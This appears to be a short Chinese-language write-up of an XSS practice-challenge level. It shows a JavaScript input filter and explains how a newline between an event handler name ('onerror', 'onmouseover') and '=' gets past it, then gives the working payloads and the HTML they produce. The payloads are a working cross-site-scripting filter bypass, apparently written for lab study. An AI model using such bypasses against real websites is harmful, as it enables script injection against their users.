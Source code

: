 ```
function render (input) {
  input = input.replace(/auto|on.*=|>/ig, '_')
  return `<input value=1 ${input} type="text">`
}
```

## 分析:

```
过滤>和以auto开头或者on开头，=等号结尾的标签属性并替换成_，且忽略大小写；

1. 可以先定义type='image',等价于img标签的方法了。 然后利用换行使=与onerror隔开
2. 用on开头的触发事件
```

## input code:

```
1. 
type='image' src='' onerror
=alert(1)

2.onmouseover
=alert(1)

```

## html:

```
1. <input value=1 type='image' src='' onerror
=alert(1) type="text">
2.<input value=1 onmouseover
=alert(1) type="text">
```

![006](/img/xss/haozi/006.png)